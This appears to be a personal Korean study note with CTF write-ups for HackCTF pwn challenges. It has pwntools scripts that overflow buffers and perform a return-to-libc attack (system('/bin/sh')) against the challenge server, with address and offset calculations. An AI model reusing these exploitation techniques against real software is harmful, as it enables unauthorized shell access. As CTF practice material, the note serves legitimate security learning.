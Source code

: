 # 개인공부
## python and pwn

## hackctf: offset      

from pwn import *

p = remote("ctf.j0n9hyun.xyz",3007)

p.recvuntil("Which function would you like to call?")

pay = A*30
pay += p32(0xD8)

p.sendline(pay)
p.interactive()



## RTL_world 풀이

checksec 입력시

CANARY : disabled

FORTIFY : disabled

NX : ENABLED

PIE : disabled

RELRO : Partial



이므로 이번문제 역시 yes_or_no 처럼 쉘코드 사용이 불가능하다.
또한 eax 이기떄문에 32비트이다.

일단 바이너리 코드를 살펴보자.

코드

이하 생략 ( 상단 choichanghyeok 이동 / 레벨 문제 / hackCTF문제 / RTL 풀이 )

개인적인 생각으로 case 5: 의 read() 함수를 공격해  bof 를 일으킬수 있을거같다.

read@plt ( call ) 까지의 버퍼는 0x8c  ( 140 ) 

총 길이는 140 + 4(SFP) +  4(RET) = 148 

따라서 페이로드는

버퍼(144) + system 주소 + RET(4) + /bin/sh 주소



system 주소는 IDA 에 보면 system 주소가 있거나 해당 리눅스 gdb info func 명령어를 이용해
알수있다.

system 주소 : 0x080485b0

/bin/sh 주소 : 0x8048eb1

( /bin/sh 주소는 b*main 을 돌리고 실행한뒤 find "/bin/sh" 를 하면 찾을수있다. 주소가 2개나오는데
rtl_world 주소를 사용하면 된다.)


따라서 페이로드 작성 @@

## hackctf: rtl_world

from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3010)

p.recv(1024)

p.sendline('5')

p.recvuntil("[Attack] > ")

system_addr = p32(0x080485b0)

bin_addr = p32(0x8048eb1)

payload = "A"*144

payload += system_addr

payload += "A"*4

payload += bin_addr

p.sendline(payload)

p.interactive()


( 파일명 vi rtl.py ) 로 생성

python rtl.py 하면

cat flag 를 입력하면 flag 
